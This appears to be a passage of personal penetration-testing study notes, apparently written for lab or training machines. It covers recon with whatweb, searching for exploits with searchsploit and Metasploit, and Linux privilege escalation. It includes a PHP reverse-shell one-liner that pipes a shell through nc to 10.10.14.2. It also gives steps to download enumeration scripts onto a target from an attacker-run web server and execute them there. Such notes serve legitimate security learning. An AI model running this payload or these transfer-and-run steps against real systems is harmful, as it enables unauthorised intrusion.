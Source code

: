     - whatweb <target>
  - **robots.txt**
    - Can be useful for seeing files not meant to be seen by public
  - Looking at source code often comes in handy (CTRL+U)
- Public Exploits
  - You can often find exploits by searching for the application name, followed by “exploit”. Ex. windows 7 smb exploit
  - **searchsploit**
    - Used to search for public exploits/vulnerabilities for any given application
    - Installation
      - sudo apt install exploitdb -y
    - Use
      - searchsploit <application>
        - searchsploit openssh 7.2
  - **Metasploit**
    - Metasploit Framework (MSF) contains built-in exploits
    - With Metasploit we can:
      - Easily exploit common vulns
      - Run recon scripts
      - Verification scripts to confirm vulnerability of target without compromising it
      - Meterpreter - Connect to shell and run commands on compromised targets
      - Post-exploitation and pivoting
    - Use
      - systemctl start postgresql - Do not always need this line; may need to run as sudo
      - msfconsole
      - search exploit <exploit>
        - search exploit eternalblue
        - This command may find exploits. To use them we can:
          - use <exploit>
      - use <exploit>
        - show options
        - Set all necessary options
        - check
        - run or > exploit
      - shell
      - /bin/bash -i
- Privilege Escalation
  - Privilege Escalation Checklist
    - Many privilege escalation checklists can be found online
    - These include:
      - HackTricks
        - book.hacktricks.xyz
      - PayloadOfAllThings
        - GitHub repo which contains, well, exploits for all sorts of vulns
        - Reverse Shell Payload
          - <?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9999 >/tmp/f'); ?>
        - Shell Stabalizer
          - /usr/bin/script -qc /bin/bash /dev/null
  - Enumeration Scripts
    - Common Scripts
      - LinEnum
      - linuxprivchecker
      - Privilege Escalation Awesome Scripts Suite (PEASS)
        - LinPEAS:
          - Provides valuable insight into the system
          - Ex.
            - ./linpeas.sh
          - git clone <https://github.com/rebootuser/LinEnum.git> (my system)
          - cd /tmp (target system)
          - which wget (confirm target system has it, if not use something else)
          - python3 -m http.server 80 (my system [on 8080 if 80 taken])
          - wget http://<my\_ip>/LinEnum.sh
          - chmod +x [LinEnum.sh](http://LinEnum.sh) (target machine)
          - ./LinEnum.sh (target machine)